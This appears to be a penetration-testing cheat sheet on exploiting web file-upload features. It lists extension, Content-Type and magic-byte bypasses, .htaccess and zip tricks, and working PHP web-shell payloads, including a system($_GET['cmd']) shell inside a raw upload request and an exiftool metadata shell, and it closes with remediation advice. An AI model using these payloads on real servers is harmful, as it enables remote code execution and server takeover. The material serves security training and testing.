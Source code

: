 # File uploads

File upload functions can be used as a powerful vector for a number of high-severity attacks. 

## Steps

* Browse the site and find each upload functionality.
* Start with basic test by uploading a webshell using Weevely.
* If that fails, try the bypasses. If a bypass is successful, exploit further, or try another.
* Make report.

## Blacklisting bypass

Find the upload request, send it to Repeater and test which extension for the file is blacklisted by changing the `filename=` parameter:

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: application/x-php
```

|          Extension          | Try                                      |
|:---------------------------:|:-----------------------------------------|
|             PHP             | .phtm, phtml, .phps, .pht, .php2, .php3, |
|                             | .php4, .php5, .shtml, .phar, .pgif, .inc |
|             ASP             | asp, .aspx, .cer, .asa                   |
|             Jsp             | .jsp, .jspx, .jsw, .jsv, .jspf           |
|         Coldfusion          | .cfm, .cfml, .cfc, .dbm                  |
| Using random capitalization | .pHp, .pHP5, .PhAr                       |

Find more in PayloadAllThings. If successful, exploit further, or try another type of validation or bypass.

## Whitelisting bypass

Try these extensions on the `filename=` parameter:

    file.jpg.php
    file.php.jpg
    file.php.blah123jpg
    file.php%00.jpg
    file.php\x00.jpg 
    file.php%00
    file.php%20
    file.php%0d%0a.jpg
    file.php.....
    file.php/
    file.php.\
    file.php#.png
    file.
    .html

## Content-Type validation

Change the `Content-Type: application/x-php` or `Content-Type : application/octet-stream` to `Content-Type: image/png` or `Content-Type: image/gif` or `Content-Type: image/jpg`.

## Content-Length validation

For `Content-Type: application/x-php`, try a small file payload:

    <?=`$_GET[x]`?>   
    <?=‘ls’;   Note : <? work for “short_open_tag=On” in php.ini ( Default=On )

If that works, try a better shell ...

## Magic bytes

Change `Content-Type: application/x-php` to `Content-Type: image/gif` and add the 
	 text `GIF89a;` before the shell-code.

```text
POST /images/upload/ HTTP/1.1
Host: target.com
...
Content-Disposition: form-data; name="uploaded"; filename="wut.php"
Content-Type: image/gif

GIF89a; <?php system($_GET['cmd']); ?>
```

See [List of file signatures](https://en.wikipedia.org/wiki/List_of_file_signatures).

## Magic bytes and metadata shell

Bypass `Content-Type` checks by setting the value of the `Content-Type` header to `image/png`, `text/plain`, `application/octet-stream`, and create a shell using the metadata using tool exiftool:

    exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg

Try uploading the modified `img.jpg`.

## Uploading configuration files

Try, for example, uploading a `.htaccess` file [htshells](https://github.com/wireghoul/htshells) or a `.config` file. Code can be appended at the end of the file.

For example, uploading a `.htaccess` file with `AddType application/x-httpd-php .l33t`, instructs the Apache HTTP Server to execute PNG images as though they were PHP scripts. After that, upload a php webshell file with extension `.l33t`.

## Zip slip

If a site accepts `.zip` files, upload `.php` by compressing it into `.zip` and uploading it. Then visit `target.com/path?page=zip://path/file.zip%23rce.php`.

## Escalation

The impact of file upload vulnerabilities generally depends on two key factors:

* Which aspect of the file the website fails to validate properly, whether that be its size, type, contents, and so on.
* What restrictions are imposed on the file once it has been successfully uploaded.

What can you achieve by exploiting file-upload: Remote code execution, SSRF, XSS, LFI, XXE, phishing, parameter pollution, disclosure of internal paths, SQL injection, DoS attack, etcetera:

|        Extension(s)        |               Impact               |
|:--------------------------:|:----------------------------------:|
| ASP, ASPX, PHP5, PHP, PHP3 |           Webshell, RCE            |
|            SVG             |       Stored XSS, SSRF, XXE        |
|            GIF             |          Stored XSS, SSRF          |
|            CSV             |           CSV injection            |
|            XML             |                XXE                 |
|            AVI             |             LFI, SSRF              |
|          HTML, JS          | HTML injection, XSS, Open redirect |
|         PNG, JPEG          |      Pixel flood attack (DoS)      |
|            ZIP             |          RCE via LFI, DoS          |
|         PDF, PPTX          |          SSRF, BLIND XXE           |
|            SCF             |                RCE                 |

In the worst case scenario, the file's type isn't validated properly, and the server configuration allows certain types of file (such as `.php` and `.jsp`) to be executed as code. In this case, an attacker could potentially upload a server-side code file that functions as a webshell, effectively granting them full control over the server.

## Portswigger labs

* [Remote code execution via web shell upload](../burp/upload/1.md)
* [Web shell upload via Content-Type restriction bypass](../burp/upload/2.md)
* [Web shell upload via path traversal](../burp/upload/3.md)
* [Web shell upload via extension blacklist bypass](../burp/upload/4.md)
* [Web shell upload via obfuscated file extension](../burp/upload/5.md)
* [Remote code execution via polyglot web shell upload](../burp/upload/6.md)
* [Web shell upload via race condition](../burp/upload/7.md)
* [Race conditions](../techniques/race.md)

## Remediation

* Check the file extension against a whitelist of permitted extensions rather than a blacklist of prohibited ones. It's much easier to guess which extensions you might want to allow than it is to guess which ones an attacker might try to upload.
* Make sure the filename doesn't contain any substrings that may be interpreted as a directory or a traversal sequence (`../`).
* Rename uploaded files to avoid collisions that may cause existing files to be overwritten.
* Do not upload files to the server's permanent filesystem until they have been fully validated.
* If uploaded files are downloadable by users, supply an accurate non-generic `Content-Type` header, the `X-Content-Type-Options: nosniff` header, and also a `Content-Disposition` header that specifies that browsers should handle the file as an attachment.
* Enforce a size limit on uploaded files (for defence-in-depth, this can be implemented both within application code and in the web server’s configuration).
* Reject attempts to upload archive formats such as ZIP.
* As much as possible, use an established framework for preprocessing file uploads rather than attempting to write your own validation mechanisms.

## Resources

* [Portswigger: File upload vulnerabilities](https://portswigger.net/web-security/file-upload)
* [OWASP:Test Upload of Malicious Files](https://owasp.org/www-project-web-security-testing-guide/latest/4-Web_Application_Security_Testing/10-Business_Logic_Testing/09-Test_Upload_of_Malicious_Files)
* [OWASP: File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
* [Weevely](https://www.blackhatethicalhacking.com/tools/weevely/)